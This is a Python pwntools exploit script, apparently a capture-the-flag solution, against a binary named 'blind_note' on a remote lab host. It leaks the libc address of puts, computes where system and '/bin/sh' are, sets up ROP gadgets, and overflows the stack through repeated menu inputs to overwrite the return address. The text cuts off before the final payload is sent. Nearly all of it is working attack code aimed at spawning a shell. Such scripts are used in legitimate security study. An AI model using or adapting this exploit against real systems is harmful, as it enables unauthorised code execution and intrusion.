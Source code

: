```python
#!/usr/bin/python
from pwn import *

# context.log_level = 'debug'

libc = ELF('../libc.so.6')
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
# p = process('./blind_note')
p = remote('172.21.4.12',10103)

# leak puts in libc
p.sendline('66')
p.recvuntil('id:')
info = p.recv(6)
puts_libc = u64(info.ljust(8,'\0'))
log.info('puts_libc = '+hex(puts_libc))
puts_offset = libc.symbols['puts']
system_offset = libc.symbols['system']
binsh_offset = libc.search('/bin/sh').next()
system_libc = puts_libc-puts_offset+system_offset
binsh_libc = puts_libc-puts_offset+binsh_offset
log.info('system_libc = '+hex(system_libc))
log.info('binsh_libc = '+hex(binsh_libc))

# gadget
prdi = 0x0000000000400c63 # pop rdi ; ret
ppr = 0x0000000000400c60 # pop r14 ; pop r15 ; ret
# stack overflow
for i in range(30):
	p.recvuntil('>\n')
	p.sendline('1')
	p.recvuntil('number\n')
	p.sendline('-')

# return address

# stack adjust align to 16
p.recvuntil('>\n')
p.sendline('1')
p.recvuntil('number\n')
p.sendline(str(ppr))

p.recvuntil('>\n')
p.sendline('1')
p.recvuntil('number\n')
p.sendline('0')

p.recvuntil('>\n')
p.sendline('1')
p.recvuntil('number\n')
p.sendline('0')

p.recvuntil('>\n')
p.sendline('1')
p.recvuntil('number\n')
p.sendline('0')

p.recvuntil('>\n')
p.sendline('1')
p.recvuntil('number\n')
p.sendline('0')

p.recvuntil('>\n')
```